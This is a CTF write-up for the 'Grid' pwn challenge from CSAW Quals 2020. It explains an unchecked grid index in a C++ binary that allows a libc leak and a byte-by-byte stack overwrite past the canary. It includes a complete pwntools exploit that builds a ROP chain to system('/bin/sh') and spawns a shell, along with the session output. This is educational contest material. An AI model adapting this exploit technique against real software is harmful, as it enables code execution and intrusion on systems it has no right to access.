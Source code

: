 ```yaml
---
title: Grid - CSAW Quals 2020
date: 2020-09-18 12:00:00
tags:
  - Exploitation
  - Linux
---
```


**tl;dr**
+ Out-of bounds index write allows byte-by-byte overwrite of return address

## Challenge description

***After millions of bugs, all my homies hate C.***

We are given a C++ binary, along with libc and libstdc files.

## Initial analysis

The mitigations enabled on the binary were as follows:

```text
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

On reversing the binary, we found out that it had a 10x10 grid, and the binary had two main functions: one to insert a character into the grid, and one to display the grid. A loop was also present, which allowed us to insert/display values 100 times.

```text
shape> a
loc> 0 0
placing a at 0, 0
shape> d
Displaying
a!`�!
`O�%}
��B��#

-��#��
%}��f��
#s�%}�
>Z��#
D�
%}�H�%}
```

## Vulnerability

After reversing, it was pretty clear that there was no index check on the `insert` function, allowing us to insert at any location. Also the `display` function copied our current grid onto the stack, thus allowing us to potentially overwrite any value on the stack.

```cpp
for ( x = 0; x <= 99; ++x )
{
    std::operator<<<std::char_traits<char>>(&std::cout, "shape> ");
    std::operator>><char,std::char_traits<char>>(&std::cin, &v10);
    if ( v10 == 100 )
    {
        sub_400A57();
        for ( i = a1; i; i = *(_QWORD *)(i + 8) ) //Display function
            *((_BYTE *)&savedregs + 10 * *(unsigned __int8 *)(i + 1) + *(unsigned __int8 *)(i + 2) - 112) = *(_BYTE *)i;
        std::operator<<<std::char_traits<char>>(&std::cout, "Displaying\n");
        for ( j = 0; j <= 9; ++j )
        {
            for ( k = 0; k <= 9; ++k )
                std::operator<<<std::char_traits<char>>(&std::cout, (unsigned int)*((char *)&savedregs + 10 * j + k - 112));
            std::operator<<<std::char_traits<char>>(&std::cout, "\n");
        }
    }
    else //Insert function
    {
        std::operator<<<std::char_traits<char>>(&std::cout, "loc> ");
        v1 = std::istream::operator>>(&std::cin, &v11);
        std::istream::operator>>(v1, &v12);
        v2 = std::operator<<<std::char_traits<char>>(&std::cout, "placing ");
        v3 = std::operator<<<std::char_traits<char>>(v2, (unsigned int)v10);
        v4 = std::operator<<<std::char_traits<char>>(v3, " at ");
        v5 = std::ostream::operator<<(v4, v11);
        v6 = std::operator<<<std::char_traits<char>>(v5, ", ");
        v7 = std::ostream::operator<<(v6, v12);
        std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
        v8 = operator new(0x10uLL);
        sub_400E1E(v8, (unsigned int)v10, (unsigned __int8)v11, (unsigned __int8)v12);
        v16 = v8;
        sub_400E62(v14, v8);
        v14 = v16;
    }
}
```

From this, it was evident that we could write one character at a time onto an arbitrary location on the stack, thus allowing us to potentially overwrite both the return address, and the loop checker variable. This also allows us to bypass the canary, and directly overwrite the return address.

On further examination of the stack during the display function, it was obvious that the grid was not initialized, so displaying the grid allowed us to leak addresses off the stack. 

Great! We got a libc leak, all that was left was to calculate the grid offsets (as it was 10x10, and addresses are 8 bytes long), and our exploit was complete!

## Exploitation

The plan for the exploit was as follows:

+ Leak libc addresses off the stack using `display`
+ Overwrite the return address byte-by-byte with our ropchain (to call `system("\bin\sh")`)
+ Overwrite the checking variable with a value greater than 100 (0x64), to exit the loop
+ Use `display` to push the new grid onto the stack, completing the overwrite

```python
from pwn import *

env={'LD_PRELOAD' : './libc.so.6 ./libstdc.so.6.0.25'}
#r = process("./grid", env = env)
r=remote("pwn.chal.csaw.io",5013)

reu = lambda a : r.recvuntil(a)
sla = lambda a,b : r.sendlineafter(a,b)
sl = lambda a : r.sendline(a)
rel = lambda : r.recvline()
sa = lambda a,b : r.sendafter(a,b)
re = lambda a : r.recv(a)

def write(data1, data2):
    sla("shape> ",data1)
    sla("loc> ",data2)

def display():
    sla("shape> ","d")
    s = ""
    rel()
    for i in range(10):
        s+=rel().replace("\n","")
    return s

if __name__ == "__main__":
    leaks = []
    out = display()
    for i in range(0,len(out)-8,8):
        leaks.append(u64(out[i:i+8]))
    leak = leaks[3]
    log.info("Leak: " + hex(leak))
    libc_base = leak - 0x4ec5da
    log.info("Libc base: " + hex(libc_base))
    one_gadget = libc_base + 0x10a45c
    system = libc_base + 0x4f4e0
    log.info("System: " + hex(system))
    binsh = libc_base + 0x1b40fa
    pop_rdi = 0x400ee3
    pop_r1415 = 0x400ee0

    write(chr(int("0x"+hex(pop_rdi)[-2:],16)),"20 0")
    write(chr(int("0x"+hex(pop_rdi)[-4:-2],16)),"20 1")
    write(chr(int("0x"+hex(pop_rdi)[-6:-4],16)),"20 2")

    write(chr(int("0x"+hex(binsh)[-2:],16)),"20 8")
    write(chr(int("0x"+hex(binsh)[-4:-2],16)),"20 9")
    write(chr(int("0x"+hex(binsh)[-6:-4],16)),"21 0")
    write(chr(int("0x"+hex(binsh)[-8:-6],16)),"21 1")
    write(chr(int("0x"+hex(binsh)[-10:-8],16)),"21 2")
    write(chr(int("0x"+hex(binsh)[-12:-10],16)),"21 3")

    write(chr(int("0x"+hex(pop_r1415)[-2:],16)),"21 6")
    write(chr(int("0x"+hex(pop_r1415)[-4:-2],16)),"21 7")
    write(chr(int("0x"+hex(pop_r1415)[-6:-4],16)),"21 8")
    write(chr(int("0x00",16)),"21 9")
    write(chr(int("0x00",16)),"22 0")
    write(chr(int("0x00",16)),"22 1")

    write(chr(int("0x"+hex(system)[-2:],16)),"24 0")
    write(chr(int("0x"+hex(system)[-4:-2],16)),"24 1")
    write(chr(int("0x"+hex(system)[-6:-4],16)),"24 2")
    write(chr(int("0x"+hex(system)[-8:-6],16)),"24 3")
    write(chr(int("0x"+hex(system)[-10:-8],16)),"24 4")
    write(chr(int("0x"+hex(system)[-12:-10],16)),"24 5")

    write("z","14 1")
    display()
    log.info("Write complete!")
    r.interactive()
```

## Flag

Running this exploit gives us the flag!

```console
d4rk_kn1gh7 @ BatMobile  python grid.py
[+] Opening connection to pwn.chal.csaw.io on port 5013: Done
[*] Leak: 0x7f40890395da
[*] Libc base: 0x7f4088b4d000
[*] System: 0x7f4088b9c4e0
[*] Write complete!
[*] Switching to interactive mode
$ ls
flag.txt
grid
$ cat flag.txt
flag{but_4ll_l4ngu4g3s_R_C:(}
```
